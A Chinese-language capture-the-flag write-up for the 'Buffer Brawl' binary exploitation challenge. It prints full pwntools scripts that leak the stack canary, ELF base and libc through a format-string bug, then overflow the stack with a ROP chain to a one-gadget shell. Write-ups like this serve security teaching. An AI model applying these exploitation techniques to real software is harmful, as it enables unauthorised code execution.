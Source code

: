 # Beginners - White Rabbit Writeup

---  
![Tonight... we are going to witness the most anticipated match in the history of CyberSec! Step into the ring for the ultimate showdown against the stack! Will you land the perfect punch or fall victim to a devastating counter? In this high-stakes match, precision and timing are your best allies. May the best hacker win!](pic/buffer_brawl.png)

## FLAG：
` `

## 觀察：
- 執行檔案：各種選項，可以觸發一些function。
  ![pic](pic/run.png)
- IDA分析：
	- `menu()`：![pic](pic/menu.png)
	- `slip()`：
	  ![pic](pic/slip.png)
	- `stack_check_up()`
	  ![pic](pic/stack_check_up.png)

## 思路：
- `slip()`有format string漏洞，可以leak出 ELF base、canary 以及 libc base。
- `stack_check_up()`有bof漏洞，可以RCE。
- 題目沒給libc，透過leak出的`puts()`offset (或更多)，在 [https://libc.rip/](https://libc.rip/ "https://libc.rip/") 查詢libc版本。
- ROP、ret2libc、one-gadget。

## 目標：
- ROP、ret2libc。

## 步驟:

1. 用format string attack 找到 canary 與 ELF address分別在第11與13個參數，leak出它們。
2. leak出libc。
3. 執行到bof處，填入canary、執行ROP chain：控制rbp周圍可寫、ret2libc。

## Exploit：  

fmt_attack.py
```python
from pwn import *
p = process('./buffer_brawl')
p.sendlineafter(b'> ', b'4')
p.recvuntil(b'Right or left?\n')
p.sendline(b"%p" * 14)
stack = p.recvline(keepends=False)
stack = [
    int(s, 16) for s in stack.replace(b"(nil)", b"0x0").replace(b"0x", b" ").split()
]
for i, s in enumerate(stack):
    print(f"{i+1}: {p64(s)} {hex(s)}")
```
![pic](pic/fmt_attack.png)
solve.py
```python
from pwn import *
exe = context.binary = ELF("buffer_brawl", checksec=False)
libc = exe.libc
p = process(exe.path)
  
def stack_leak(payload) -> bytes:
    p.sendline(b"4")
    p.sendlineafter(b"Right or left?\n", payload)
    return p.recvline()
  
def leak_got(symbol) -> int:
    addr = stack_leak(b"%7$s".ljust(8, b"_") + p64(exe.got[symbol]))
    addr = u64(addr[:6] + b"\x00\x00")
    return addr
  
canary, exe_leak = stack_leak(b"%11$p %13$p").split()
canary = int(canary, 16)
exe_leak = int(exe_leak, 16)
exe.address = exe_leak - 0x1747
puts_addr = leak_got("puts")
libc.address = puts_addr - libc.sym.puts
  
p.info(f"{puts_addr = :x}")
p.info(f"{canary = :x}")
p.info(f"{exe.address = :x}")
p.info(f"{libc.address = :x}")
  
for i in range(29):
    p.sendlineafter(b"\n> ", b"3")
  
pop_rbp = exe.address + 0x11b3  # pop rbp; ret;
bss = exe.address + 0x4100      # any writable address
exec = libc.address + 0xebd43   # one-gadget
payload = b'A'*24+p64(canary)+b'B'*8 + flat([pop_rbp, bss, exec])
p.sendline(payload)
p.interactive()
```

![pic](pic/flag.png)